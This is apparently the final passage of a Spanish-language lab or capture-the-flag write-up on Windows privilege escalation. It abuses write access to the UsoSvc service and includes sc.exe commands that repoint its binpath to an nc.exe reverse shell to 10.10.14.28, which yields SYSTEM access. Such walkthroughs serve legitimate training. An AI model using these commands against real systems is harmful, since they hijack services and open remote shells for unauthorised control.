 ![](https://lh5.googleusercontent.com/fUxunHqvb1nlkrS-m9l4wfSeB3VcqchWjC_wbRNdDulkn9FO9RLMKXpozA9BCSiyKJHrmiyPv-FIoL6yMDu7w_BIMI1TBwH1VRuXGPM20f5-OsgNEpWPPadyMgqKBK2_8pOv_3pN)

Como podemos observar tenemos acceso de escritura al servicio `UsoSvc`  y podemos cambiar la `BinPath` y ejecutar lo que yo quiera Administrador.

Para obtener una shell como System montaremos un servidor con python compartiendo el binario `nc.exe` y lo descargaremos en la máquina remote.
![](https://lh6.googleusercontent.com/1kJLTCDff2QP1Vpu1lPJxfQpWhFUrT3ZhMlMvV0nfmkHLK8GmSdcV11ObVJchgN82go_icb-HbbEllQIIzfpS3a-IWnNfMpKltezZ4I8AnViL-PjdeLFZb0RqwMFm25ujlmp66n-)
Y para finalizar solo detenemos el servicio, modificamos la binpath y ejecutamos nuevamente el servicio.

```
PS C:\Temp> sc.exe stop UsoSvc
PS C:\Temp> sc.exe config UsoSvc binpath= "C:\Temp\nc.exe 10.10.14.28 1234 -e cmd.exe"
PS C:\Temp> sc.exe start UsoSvc
```

![](https://lh6.googleusercontent.com/R-dtUWa_lKQxmn05EojKi3L-bJhnwFocva2ZgX8XiUh5euF1V5A_8zrcCgwkY47IcSX-7I1Uff7-LMMz_Kl-unblvoPdCQQSpKHSlHZkTmVN06-whuMgF46C0GaXx35ZNuIeAlvI)

**¡¡Somos Administradores!!**

![enter image description here](https://i2.wp.com/media0.giphy.com/media/mQG644PY8O7rG/giphy.gif)

Espero te haya gustado, recuerda seguirme en mis redes sociales para estar al pendiente de todo mi contenido.

#### **¡Muchas Gracias!**


